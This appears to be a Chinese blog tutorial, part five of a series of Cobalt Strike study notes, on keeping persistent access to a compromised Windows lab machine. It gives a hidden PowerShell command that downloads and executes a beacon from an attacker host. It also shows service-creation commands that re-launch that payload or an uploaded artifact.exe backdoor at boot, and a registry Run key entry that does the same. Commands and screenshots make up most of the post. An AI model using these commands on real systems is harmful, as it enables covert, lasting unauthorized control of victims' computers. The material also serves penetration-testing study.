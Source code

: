 ```yaml
---
title: CobaltStrike学习五
mathjax: true
copyright: true
comment: true
date: 2019-10-16 19:34:22
tags: CobaltStrike
categories: 工具使用
---
```

在渗透过程中拿到目标权限只是开始，如果管理员修复了漏洞权限就丢失了，这时候要想持续在内网进行渗透就需要权限维持。了解cs的权限维持的手段，熟悉win下注册表、开机启动项以及各种渗透中常见的命令。


<!-- more -->

---
```
1.注册表
2.启动项
3.计时任务
4.设置服务
5.shift后门
6.dll劫持(白加黑)
7.利用其他安装的软件
```
## 设置powershell脚本开机自启动后门
点击Attacks->web driver-by ->script web delivery
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/%7DI%40FX2R7%7DWHI.png)

点击launch后出现如下
将其复制到靶机的cmd运行即可
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/NJHB%7B%607%7D4%60XM8L%5B%60NIE0V.png)

```shell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.1.1.100:81/a'))"
```
此时拿到了普通用户权限的beacon，首先提权到system权限
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/5%603KM2TO1C%7D%7EQRV%7B8174.png)

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/E6137CE.png)

打开beacon shell后输入：
```
shell sc create "name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.100:81/a'))\""

```
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/%602%5BPYJY%7B_MZN%5B%7EZ9M%60BBE.png)

切换到靶机，查看服务，
在服务中找到了名为name的项
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/EPPCW8AG%40AZT5.png)

注意到此时启动类型还是手动，我们设置为自动
回到beacon shell输入以下命令即可
```
shell sc config "name" start= auto
```
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/%7B%256FN54XMS_B1GJ%7BSQFP9Q5.png)

在服务中右键-》刷新
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/L%7ERK9V%24I_%7BO7%7E%7BZ%7EB2WE%24GI.png)

设置服务的描述字符串
shell sc description "name" "description"

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/NQHR0%7BQO5%40T.png)

再次刷新，可以看到此时在name的属性中看到了描述为description
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/4%7BOPA%25%7D%409PR09%5B4MH%5BVPQS7.png)

接下来启动服务

shell net start "name"

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/H_%4019B%7E2%24U%5D61LJ%5DS3RBQ%25I.png)

然后重启靶机
此时看到已有的会话已经失去了连接
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/RA3JHISUG%5BM6FMGFIK%7ESX%7BS.png)

不过通过powershell留开机自启动服务，当目标主机重启电脑之后,不断向攻击机器发送请求数据包，重新拿到控制权限

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/FWCQIBD6N%24FLE.png)


## 通过service留自启动后门，生成一个exe后门
Attacks->packages->windows executable

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/_219%7D3LE410%5B8K06A8KL389.png)

保存即可,
然后右键explore>file browser

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/K2%40O5Y3MW4BFL1W%60I.png)

把生成的exe程序上传到靶机
选择我们想要的路径，这里以C:\windows为例
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/HJN9OLVEC75MQ_2CH.png)

点击upload，选择artifact.exe
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/4%259GFI7S%7DP%7ER%25AZ%24ZJ.png)


点击打开即可
在靶机上就能看到了

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg.png)

创建项及路径
shell sc create "server power" binpath= "C:\Windows\artifact.exe"

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg2.png)

```
设置服务的描述字符串
shell sc description "server power" "description"

设置服务为自启动
shell sc config "server power" start= auto
```

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg3.png)

然后启动服务
shell net start "server power"

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg4.png)

## 也可以直接向注册表写开机启动项
还是用上一步生成的木马程序
```
shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "keyname" /t REG_SZ /d "C:\Windows\artifact.exe" /f
```
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg5.png)


切换到靶机，打开注册表
![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg6.png)

![](https://raw.githubusercontent.com/alpha302/cloudimg/master/headImg7.png)

靶机重启之后，在cs同样是自动拿到了控制权限